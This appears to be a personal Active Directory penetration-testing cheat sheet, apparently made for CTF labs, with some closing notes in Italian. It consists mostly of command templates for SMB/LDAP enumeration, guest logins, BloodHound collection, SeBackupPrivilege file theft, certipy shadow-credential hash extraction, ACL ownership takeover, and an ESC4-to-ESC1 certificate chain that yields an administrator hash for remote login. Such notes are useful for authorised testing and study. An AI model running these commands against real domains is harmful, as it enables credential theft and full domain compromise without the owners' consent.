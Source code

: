 # Table of Content
<!-- TOC -->

- [Table of Content](#table-of-content)
- [Enumeration](#enumeration)
    - [Tools](#tools)
    - [Default credentials](#default-credentials)
- [Privilege Escalation](#privilege-escalation)
    - [Enumeration](#enumeration)
        - [Bloodhound](#bloodhound)
    - [SeBackupPrivilege](#sebackupprivilege)
    - [Certipy-AD](#certipy-ad)
    - [WriteOwner privilege](#writeowner-privilege)
    - [Grant FullControl rights](#grant-fullcontrol-rights)
    - [Kerberos Certificate Misconfiguration exploit](#kerberos-certificate-misconfiguration-exploit)
        - [ESC4](#esc4)
        - [ESC1](#esc1)
- [notes from adri TODO](#notes-from-adri-todo)

<!-- /TOC -->

# Enumeration
search for:
- shares
- groups
- RIDs

\
try using default credentials like `guest` and no password\
reapet enumeration with any other users you find access to

## Tools
1. crackmapexec
    - `crackmapexec smb {host} --shares {-u guest -p ''}`
    - `crackmapexec smb {host} --rid-brute`
2. nxc
    - `nxc smb {host} --shares {-u guest -p ''}`
    - `nxc ldap {host} {-M group-mem -o group="Remote Managment Users"}`
    - `nxc smb {host} --rid-brute`
    - `nxc smb {host} --users`
3. smbclient
    - `smbclient -L HOST`
    - `smbclient HOST\SHARE {- U user%password}`
4. impacket
    - `impacket-lookupsid {host} {-no-pass}`
5. evilwinrm
    - use it every time with every new users and {password} you find. Also check it with `nxc ldap` because sometimes it doesnt work

## Default credentials
- smb: `-u 'guest' -p ''`

# Privilege Escalation

## Enumeration
- check permission: `whoami /all`
- search for vulnerable certificates
- winPEAS

### Bloodhound
1. Collect data
    - `bloodhound-python -u {user} -p {password} -d {domain} -ns ip -c All`
    - `nxc ldap {host} -u {user} -p {password} --bloodhound -c All`
2. Import and query

## SeBackupPrivilege
Enable privileges using [giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege.git) github repository.

```PS
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Set-SeBackupPrivilege
Get-SeBackupPrivilege

# Retrieve sensitive files
Copy-FileSeBackupPrivilege C:\Users\Administrator\flag.txt C:\Users\Public\flag.txt -Overwrite
```

## Certipy-AD
when you already have a user you can try to extract hashes for other users:
- `certipy-ad shadow auto -u '{user}@{domain}' -p "{password}" -account '{target_user}' -dc-ip '{ip}'`

and also search for vulnerable certificates if you can access the CA_SVC account:
- `certipy-ad find -u {user}@{domain} -hashes :{hash} -stdout -vulnerable -dc-ip {ip} {-old-bloodhound}`

## WriteOwner privilege
- bloodyAD:\
    `bloodyAD --host '{ip}' -d '{domain}' -u '{user}' -p '{password}' set owner '{target_user}' '{user}'`
- impacket:\
`impacket-owneredit -action write -new-owner '{user}' -target '{target_user}' 'domain'/'{user}':'{password}'`
- PowerView:\
`Set-DomainObjectOwner -TargetIdentity {target_user} -PrincipalIdentity {user}`

## Grant FullControl rights
- PowerView
`Add-DomainObjectAcl -TargetIdentity {target_user} -PrincipalIdentity {user} -Rights fullcontrol`
- impacket
`impacket-dacledit -action write -rights FullControl -principal {user} -target {target_user} {domain}/{user}:{password}`

## Kerberos Certificate Misconfiguration exploit

Weak ACLs refer to access control entries (ACEs) that grant excessive permissions to unauthorized users or groups. hese permissions allow attackers to modify the template’s properties or even the ACL itself, potentially leading to domain escalation.

Requirements (any):
```
Rights 	        |   Description
----------------------------------------------------------------------------
Owner 	        |   Implicit full control of object, all properties can be edited
WriteOwner 	    |   Can modify the owner to an attacker-controlled principal
WriteDacl 	    |   Can modify rights to grant attacker FullControl rights
WriteProperty 	|   Can edit all properties
FullControl 	|   Full control of object, all properties can be edited
```

### ESC4
ESC4 is when a user has write privileges over a certificate template. This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.
- update certificate cache to the vulnerable one:   \
`KRB5CCNAME=$PWD/{user}.ccache certipy-ad template -k -template {vulnerable_template_anem} -dc-ip {ip} -target {dc.domain}`
- then requests the certificate for the user you want to escalate to, using that template:\
`certipy-ad req -u {user} -hashes '{hash}' -ca {CN: certificate_subject} -target {domain} -dc-ip  {ip}  -template DunderMifflinAuthentication -upn administrator@{domain} -ns  {ip}  -dns  {ip}  -debug`
- finally you get the hash using the export pfx file:\
`certipy-ad auth -pfx administrator_10.pfx  -domain {domain}`

so you log in with evil-winrm using the second part of the HASH

### ESC1

ESC1 is the label for a category of misconfigurations that allows attackers to trick AD CS into issuing them certificates that they can use to authenticate as privileged users.


# notes from adri TODO

utile anche usare nxc con --debug

a volte nxc si autentica ma altri tool no. Anche bloodhound. Cercando si nota che quando l'autenticazione funziona è perchè va trmaite Kerboros quindi va usata l'opzione -k

impacket-gettgt to bypass all and authenticate with kerberos


guarda il gruppo remote managment con bloodhound e marca come high value gli utenti che ne fanno parte

ogni volta che fai un upadte di utenzza gruppo ecc, bisdogna rigenerare il TGT kerberos se usato